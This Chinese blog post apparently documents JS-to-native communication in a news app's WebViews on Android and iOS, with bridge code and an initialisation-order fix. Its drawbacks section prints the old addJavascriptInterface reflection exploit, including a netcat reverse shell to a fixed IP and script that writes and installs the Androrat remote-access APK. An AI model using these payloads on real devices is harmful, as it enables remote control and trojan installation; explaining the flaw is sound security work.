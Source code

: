 ```yaml
---
layout: post
title: 在APP中实现js与native通信
categories:
- 前端
tags:
- native通信
- 新闻客户端
- jsbridge
---
```


在订制腾讯新闻客户端的汽车页卡时，有些页面是用HTML页面实现的。比如车系详情页，车型详情页。这类页面因为汽车运营的关系具有不定期更新的特点。比如车型降价，新车上市等。使用HTML页面之后，有些数据需要从客户端传递过来，也有一些数据需要从页面传递到客户端，也就是HTML与客户端之间通信的问题。

## Android平台

### Android调用JS

{% highlight java %}
WebView.loadUrl("javascript:onJsAndroid()");
{% endhighlight %}

### JS调用Android

{% highlight java %}
// Android java代码
mWebView.addJavascriptInterface(new Class(),"android");  

public class Class(){
  @JavascriptInterface
  public void methodOne(){

  }
} 

// js 代码
window.android.methodOne();
{% endhighlight %}

### 弊端
在Android 4.2之前的版本中，通过addJavascriptInterface然后利用java的反射机制，可以回调java类中的内置静态变量。

首先，通过java可以反弹shell，这样可以读写Android文件系统。
{% highlight javascript %}
function execute(cmdArgs)
{
  return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
{% endhighlight %}

其次，可以对网页挂马，安装apk到手机中
{% highlight javascript %}
function execute(cmdArgs)
{
  return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 
 
var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4"
 
var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94"
 
var armBinary3="…"
var armBinary4="…"
// ……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);

execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);

{% endhighlight %}
以上流程，可以将apk进行拆分，利用echo写入到文件系统中，然后利用adb进行安装。

在Android 4.2版本中，开始使用@JavascriptInterface，然后在java代码中验证js调用的每个参数，屏蔽攻击代码，可以防止攻击。

汽车垂直化方案
新闻客户端提供两种js调用native的方式

* url scheme方式
通过伪协议"jsbridge://get_with_json_data?json=params", native代码重写shouldOverrideUrlLoading来做相关接口的实现和白名单控制
{% highlight javascript %}
/**
 * webview代码中通过监听onLoadResource触发调用Java方法
 */
function resourceCall() {
  var paramsArray = S.call(arguments, 0);
  var img = new Image();
  img.onload = function() {
    img = null;
  };
  img.src = 'jsbridge://get_with_json_data?json=' + encodeURIComponent(arrayToJsonString(paramsArray));
}
{% endhighlight %}
* prompt方式
这种方式是通过native重写onJsPrompt，拦截webview中的window.prompt并且获取其中的参数，处理完成之后需要调用JsPromptResult的confirm方法。
{% highlight javascript %}
/**
 * 通过prompt调用Java对象方法
 */
function promptCall() {
  var paramsArray = S.call(arguments, 0);
  var jsonResult = prompt(arrayToJsonString(paramsArray));
  var re = JSON.parse(jsonResult);
  if (re.code != 200) {
    throw "call error, code:" + re.code + ", message:" + re.result;
  }
  return re.result;
}
{% endhighlight %}

更多Android下js调用native的方案见此：[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

将与native通信用到的接口挂载在window.XXX下，调用window.XXX.YYY就可以调用native的方法。

## iOS平台

### iOS调用JS

{% highlight objective-c %}
// stringByEvaluatingJavaScriptFromString可以将字符串当做js来执行，在全局变量中定义js方法之后，OC就可以调用
- (void)webViewDidFinishLoad:(UIWebView *)webView {  
  NSString *currentURL = [webView stringByEvaluatingJavaScriptFromString:@"document.location.href"];
}
{% endhighlight %}

### JS调用iOS
js调用iOS，用到了开源库[TGJSBridge](https://github.com/ohsc/TGJSBridge)。其基本原理是利用伪协议"jsbridge://PostNotificationWithId-"，在native代码shouldStartLoadWithRequest中捕获并解析请求，然后调用相关的native逻辑。使用流程如下。
{% highlight javascript %}
// js向native发送修改页面标题的通知
jsBridge.postNotification('setTitle', {
  title : data.value
});
{% endhighlight %}
{% highlight objective-c %}
// 初始化jsBridge
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    NSString *jsBridgePath = [[NSBundle mainBundle] pathForResource:@"TGJSBridge" ofType:@"js"];
    NSString *jsBridge = [NSString stringWithContentsOfFile:jsBridgePath encoding:NSUTF8StringEncoding error:nil];
    [self.webView stringByEvaluatingJavaScriptFromString:jsBridge];
    
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
    [self showLoading:NO animated:YES];
}

// 响应js端发送的通知"setTitle",修改页面标题
- (void)jsBridge:(TGJSBridge *)bridge setTitleWithUserInfo:(NSDictionary *)userInfo fromWebView:(UIWebView *)webview
{
//    NSString *titleName = QNString([userInfo objectForKey:@"title"], _carSerialName);
    ((QNTitleView *)self.qn_navigationItem.titleView).text = QNString([userInfo objectForKey:@"title"], _carSerialName);
}
{% endhighlight %}

在js调用iOS时，有一个前提，就是native代码中需要首先完成jsBridge的初始化。TGJSBridge提供了一个jsBridgeReady的事件，js端监听jsBridgeReady事件并在事件处理函数中再向native发送通知。

但是有个问题，新闻客户端将TGJSBridge.js文件打包到了安装包中，web页面无需再引入此js文件。在处理像设置页面标题这种问题时，即页面加载完成之后就需要马上向native发送通知的情况，就会有问题。

* js端直接调用jsBridge.bind('jsBridgeReady')——jsBridge可能还未初始化，并不在window的context中。
* 将jsBridge初始化操作提前，放在webViewDidStartLoad——jsBridgeReady已经被触发，但是页面js端还没开始监听jsBridgeReady事件。

native与js的jsBridge初始化调用顺序相互依赖，需要处理好，才能解决像setTitle这种操作。

**新闻客户端汽车页卡车系详情页的解决方式**
{% highlight javascript %}
//提供给ios调用的方法
var mutex = false;
window.onJsBridgeReady = function(){
  if(mutex){
    return;
  }
  try{
    nanoEvtProxy.on('iosnews:settit', function(data){
      jsBridge.postNotification('setTitle', {
        title : data.value
      });
    });
    nanoEvtProxy.trigger('iosnews:ready');
  }catch(e){

  }
  mutex = true;
}

// iosnews:ready被触发之后，说明native已经完成jsBridge初始化工作。
// 然后再触发iosnews:settit事件，
// 而在上面的代码中iosnews:settit事件已经完成监听，可以向native发送通知。
nanoEvtProxy.on('iosnews:ready', function(e, data){
  nanoEvtProxy.trigger('iosnews:settit', data);  
});
{% endhighlight %}

{% highlight objective-c %}
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    
    // jsBridge初始化代码
    
    // 页面加载完成之后调用页面中定义的onJsBridgeReady方法
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
}
{% endhighlight %}

以上流程中，各种事件的监听和触发确实比较绕。但是梳理下来，是可以保证页面标题能正常而且尽可能快的被设置的。

## 参考
[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)

[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

[WebView中JavaScript与Objective-C的交互](http://blog.csdn.net/perry_xiao/article/details/8027249)
